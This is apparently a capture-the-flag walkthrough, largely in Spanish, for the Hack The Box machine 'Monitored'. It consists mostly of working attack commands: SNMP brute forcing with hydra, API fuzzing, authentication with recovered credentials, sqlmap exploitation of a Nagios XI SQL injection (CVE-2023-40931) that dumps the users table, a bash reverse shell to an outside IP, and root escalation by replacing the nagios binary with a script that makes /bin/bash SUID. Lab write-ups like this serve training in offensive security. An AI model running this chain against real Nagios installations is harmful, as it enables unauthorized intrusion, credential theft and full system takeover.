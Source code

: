 ```yaml
---
layout: default
title: Monitored
---
```



```bash
ldapsearch -H ldap://monitored.htb -x -s base namingcontexts
```

```bash
ldapsearch -H ldap://monitored.htb -x -b "dc=monitored,dc=htb"
```

SCAN UDP -sU

```bash
sudo nmap -sU -p- --min-rate 10000 --open 10.10.11.248
```

```bash
hydra -P /usr/share/SecLists/Discovery/SNMP/common-snmp-community-strings.txt monitored.htb snmp
```

```bash
snmpbulkwalk -c public -v2c 10.10.11.248 . | tee snmp_data
```

```
svc \ XjH7VCehowpR1xZB
```

Fuzzear endpoints a partir de :
```
https://nagios.monitored.htb/nagiosxi/api
```

GET y POST

```bash
ffuf -u https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  -t 150 -fs 32
```

```bash
ffuf -u https://nagios.monitored.htb/nagiosxi/api/v1/FUZZ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt  -t 150 -fs 32 -X POST
```

[GitHub - chrislockard/api_wordlist: A wordlist of API names for web application assessments](https://github.com/chrislockard/api_wordlist)

```http
POST /nagiosxi/api/v1/authenticate

username=svc&password=XjH7VCehowpR1xZB
```

```
https://nagios.monitored.htb/nagiosxi/?token=4974cd07de85be10303478189d2a1bd0215bff3d
```

`Nagios XI 5.11.0 -> CVE-2023-40931`

![[image-20240508194342678.webp]]![[image-20240508194415753.webp]]

```BASH
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=bspu3ilq508jivkicfqofjo29g" --batch --threads 10
```

```BASH
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="id=3&action=acknowledge_banner_message" -p id --cookie "nagiosxi=a4i4msg08i966d4ghlrhqrj963" --batch --threads 10 --dump -T xi_users
```

# RCE como admin

`Configure -> Core Config Manager -> Commands`

Creamos rev shell

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'
```

`Core Config -> Hosts -> Localhost -> Check commands -> Run check command`

# ROOT

Para escalar podemos cambiar el binario de nagios `/usr/local/nagios/bin/nagios` por:

```bash
#!/bin/bash

chmod u+s /bin/bash
```

Restablecer el servicio
```bash
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios
```

